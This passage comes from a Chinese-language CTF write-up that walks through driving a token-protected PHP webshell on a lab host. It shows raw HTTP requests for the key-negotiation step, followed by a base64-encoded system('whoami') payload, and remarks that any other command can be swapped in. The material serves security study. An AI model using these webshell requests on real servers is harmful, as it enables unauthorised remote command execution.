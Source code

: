 通过编写这么一段代码，调换了一下顺序，就可以通过 `$t=>$_SESSION['token']` 和 `$r=>c3lzdGVtKCd3aG9hbWknKTsg`，拿到参数 `$v`

至此，整条利用链已经清晰，我们来复现一下吧：

#### 12.3.1 第一步、密钥协商得到 Token

对 WebShell 进行发包，`Token` 随便填啥都行

```bash
GET /muma.php HTTP/1.1
Host: test.ctf.com
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/83.0.4103.116 Safari/537.36
Token: 1
Content-Length: 0
```

在返回包中可以看到服务器生成的 `Token` 值和 `Cookie` 值

[![](assets/1707954023-dded68c245ad7ec9e0f0721493db4270.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240205144014-6ae1a342-c3f1-1.png)

#### 12.3.2 第二步，得到 X-CSRF-TOKEN

假设我们想执行系统命令 `whoami`，PHP 代码就是 `system('whoami');`，对其进行 Base64 加密后的字符串 `c3lzdGVtKCd3aG9hbWknKTsg`，当然你想执行其他的命令也行哈哈

```bash
POST /decode.php HTTP/1.1
Host: test.ctf.com
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/83.0.4103.116 Safari/537.36
Content-Length: 0

token=a2b3fca92539495e&out=c3lzdGVtKCd3aG9hbWknKTsg
```

然后通过上文写的解密 PHP，通过第一步获得的 `Token` 值和最终 Base64 加密后的字符串 `c3lzdGVtKCd3aG9hbWknKTsg`，拿到得到 `X-CSRF-TOKEN`

[![](assets/1707954023-0a35efaa3907f88b75cd654ed0ac942d.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240205144029-73c19cec-c3f1-1.png)
